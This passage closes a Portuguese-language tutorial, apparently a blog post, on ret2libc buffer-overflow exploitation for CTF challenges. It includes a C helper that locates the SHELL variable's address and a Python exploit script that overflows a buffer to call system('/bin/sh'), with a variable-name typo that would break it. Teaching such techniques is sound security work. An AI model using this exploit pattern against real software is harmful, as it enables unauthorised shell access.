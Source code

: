 *Procurar pelo environ é interessante. Nativamente, a variável environ possui um endereço de memória, e neste endereço, existe outro endereço de memória, o qual possui as variáveis ambiente. o ++ representa um contador, que vai de 1 ao limite de variáveis ambiente. No caso, seria necessário ir somando +1 e +1 até encontrarmos o endereço de /bin/sh. Todavia, este método é um pouco inviável, pois a variável ambiente muda seu endereço de dentro do GDB para fora. Então, o que fazer?*
*Então, Vamos escrever outro código C, prometo que também será simples de se entender.*

    #include <stdio.h>
    #include <stdlib.h>
    
    int main(int argc, char *argv[])
    {
        char *endereco= getenv("SHELL");
        printf("sh ta em %p\n",endereco);
    }

`gcc -o OutputName ProgramName`

`chmod +x OutputName`

`./OutputName`

*Nossa Saída:*

`> ./vem_sh`

`sh esta em 0xbffff9de`

*Sucesso total! Temos tudo que precisamos para montar nosso script. Vamos, então, modifica-lo pela última vez!*

    #!/usr/bin/env python
    import os
    import struct
    
    def main():
        endereco_system = struct.pack("I", 0xb7ecffb0)
        endereco_sh = struct.pack("I", 0xbffff9de)
        padding = 80
        payload = "A" * padding + endereço_system + "LMAO" + endereco_sh
        MeuPayload = open("payload.txt", "w")
        MeuPayload.write(payload)
        MeuPayload.close()
        os.system("(cat payload.txt; cat) | NomeArquivoCCompilado")
    
    main()

![gotit](https://i.imgur.com/4s2HuZD.png)

*BOOOOM! sucess.*
## Considerações finais
*Com isto, conseguimos nossa shell explorando o ret2libc e finalizamos nossa pequena introdução à um dos meios exploração stack-based, "**e nunca executamos nenhum código na stack**". Lembrando, claro, que este não é o único modo de se explorar funções da libc, entretanto, é de fato o mais conhecido e comum de se encontrar em desafios de [CTF](https://github.com/d1stopic/writeups) de níveis não tão altos de proteção. Espero que, de alguma maneira, esta postagem lhe seja útil na vida, ou em algum ctf mundo afora. No demais, **Lets [pwn](https://github.com/d1stopic/writeups/tree/master/pwn) the world!***
